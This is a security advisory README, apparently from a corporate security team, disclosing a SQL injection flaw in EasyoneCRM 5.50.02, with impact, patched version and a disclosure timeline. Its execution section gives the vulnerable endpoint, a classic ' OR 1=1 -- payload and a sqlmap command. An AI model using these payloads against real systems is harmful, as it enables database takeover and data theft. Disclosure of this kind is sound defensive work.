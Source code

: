 # EasyoneCRM-5.50.02-SQLinjection
Easyone One is an Italian CRM company with 14 years of experience with a mission: to organize the sales processes of companies, in an increasingly complex and competitive market, through the digitization of processes from the most important and strategic activity: the relationship with the customer.
Easyone is not a CRM vendor, it produce and develop directly CRM for the Italian market.

Easyone developed integration with the most popular management systems on the Italian market: Alyante and Team System Metodo; SageX3, Galileo by San Marco Informatica, Arca by Wolters Kluver, Business by NTS, MecSal by Passpartout and more.

Easyone has more than 1500 active customers on the national territory.

Exploiting this vulnerability allows a remote attacker to obtain control of the database. RCE is not guaranteed, depends on the privileges and capabilities of the user running the dbms. 

Vulnerable version: 5.50.02

Patched version: 5.50.02.03

# Timeline
- 30/08/2022 - Contacted Easyone IT department via e-mail regarding the vulnerability
- 05/09/2022 - Contacted Easyone IT department via telephone regarding availability slot to discuss the vulnerability
- 19/09/2022 - Call with Easyone IT department - vulnerability explained and recognized by Easyone IT department
- 19/09/2022 - CVE request approved by Easyone IT department
- 19/09/2022 - Contacted Easyone IT department via e-mail with summary of the call - patching of the vulnerability planned 
- 28/10/2022 - Contacted Easyone IT department asking about patching 
- 28/10/2022 - Easyone IT department confirms the successful patching and the release of the patched version
- 02/11/2022 - First CVE request sent  
- 21/11/2022 - Reminder e-mail to cve.mitre.org
- 29/11/2022 - Reminder e-mail to cve.mitre.org
- 06/12/2022 - Reminder e-mail to cve.mitre.org
- 14/12/2022 - cve.mitre.org asked about advisory
- 15/12/2022 - CVE request with advisory provided to cve.mitre.org 


## Execution
- Vulnerable GET parameter: domain.com/Services/Misc.asmx/SearchTag?text=SQLI 
- PoC: 
```
domain.com/Services/Misc.asmx/SearchTag?text=z' OR 1=1 --
```
- PoC via sqlmap: 
```
sqlmap -u https://domain.com/Services/Misc.asmx/SearchTag?text=a --dbms=DBMS --batch
```

## Screenshots
![Immagine 2022-12-15 184659](https://user-images.githubusercontent.com/119488062/207931523-f5db2479-9bc2-429a-ab24-96ea6ee33919.png)

## Automated PoC currently in development

# Authors
Luca Bernardi, Davide Bianchin, Fortunato [fox] Lodari @ Deda Cloud Cybersecurity Team
